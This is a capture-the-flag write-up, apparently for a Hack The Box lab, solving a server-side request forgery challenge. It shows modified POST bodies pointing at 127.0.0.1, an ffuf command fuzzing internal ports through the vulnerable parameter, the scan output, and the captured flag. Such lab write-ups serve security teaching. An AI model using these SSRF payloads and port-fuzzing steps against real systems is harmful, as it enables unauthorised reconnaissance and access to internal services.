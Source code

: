 ## Challenge 

Exploit a SSRF vulnerability to identify an internal web application. Access the internal application to obtain the flag. 

## Solution

After checking for the availability of a date, I send the request to Burp Repeater, and I see the body of the `POST` request is:

```http
dateserver=http://dateserver.htb/availability.php&date=2024-01-16
```

Now, let's try to access the internal server, and observe the response. Send the request using Burp Repeater with the following body:

```http
dateserver=http://127.0.0.1&date=2024-01-16
```

We receive a `200 OK` meaning that we got SSRF, and we can check for internal services.

Now let's use `ffuf` to brute-force and check for any other available ports.

```sh
ffuf -w ports.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-1" -fr "Failed to connect to"
```

And I got three ports:

```sh
80                      [Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 3656ms]
3306                    [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 97ms]
8000                    [Status: 200, Size: 37, Words: 1, Lines: 1, Duration: 27ms]
```

Let's try `3306` and `8000` on Burp Repeater.

For the `3306` the response was `Error (1): Received HTTP/0.9 when not allowed` and for the port `8000` I got the flag `HTB{911fc5badf7d65aed95380d536c270f8}`.

This was done by sending a request with the following body:

```sh
dateserver=http://127.0.0.1:8000&date=2024-01-01
```


